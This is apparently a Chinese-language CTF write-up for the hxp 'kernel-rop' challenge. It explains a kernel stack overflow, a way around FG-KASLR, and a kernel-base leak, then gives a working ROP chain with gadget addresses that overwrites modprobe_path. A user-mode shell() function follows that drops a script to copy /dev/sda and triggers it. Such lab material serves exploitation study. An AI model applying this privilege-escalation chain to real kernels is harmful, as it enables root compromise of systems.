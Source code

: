# hxp200 kernel-rop
## IDA

IDA很简单，存在越界读写，是一个栈溢出问题。

测试发现当读写长度≥0x200时，会报错，最大的size为0x198。

## Mitigation

FG_KASLR: 提高了寻找可用gadget的难度，通过fg_kaslr.py来找到与kernbase偏移不变的gadget。

之后通过kernel-rop完成利用即可。

## 利用

1. 泄漏

hackme_read(fd, rbuf, 0x198)

rbuf[38]为一个不受FG_KASLR干扰的地址，通过这个地址计算出内核基地址。可以发现这个地址是do_syscall_64，因此这个地址并不是巧合。

```c
/ $ grep ffffffff9180a157 /tmp/syms
/ $ grep ffffffff9180a1 /tmp/syms
ffffffff9180a120 T do_syscall_64
```

2. 修改modprobe_path

利用一下几个gadgets:

```c
*rop++ = pop_rax;
*rop++ = 0x00312f706d742f;
*rop++ = pop_rbx;
*rop++ = modprobe_path;
*rop++ = write_rbx_rax;
*rop++ = 0;
*rop++ = 0;
*rop++ = kpti;//swapgs_restore_regs_and_return_to_usermode+0x16
*rop++ = 0;
*rop++ = 0;
*rop++ = (size_t)shell;
*rop++ = user_cs;
*rop++ = user_flags;
*rop++ = user_sp;
*rop++ = user_ss;

size_t pop_rax = 0xffffffff81004d11;//: pop rax ; ret
size_t pop_rbx = 0xffffffff81006158;//: pop rbx ; ret
size_t write_rbx_rax = 0xffffffff8100306d;// : mov qword ptr [rbx], rax ; pop rbx ; pop rbp ; ret
```

最后通过`swapgs_restore_regs_and_return_to_usermode+0x16`返回到用户态的函数

```c
void shell() {
	system("echo -ne '#!/bin/sh\n/bin/cp /dev/sda /tmp/flag\n/bin/chmod 777 /tmp/flag' > /tmp/1");
	system("echo -ne '\xff\xff\xff\xff' > /tmp/aaa");
	system("chmod +x /tmp/1");
	system("chmod +x /tmp/aaa");
	system("/tmp/aaa");
	system("cat /tmp/flag");
}
```
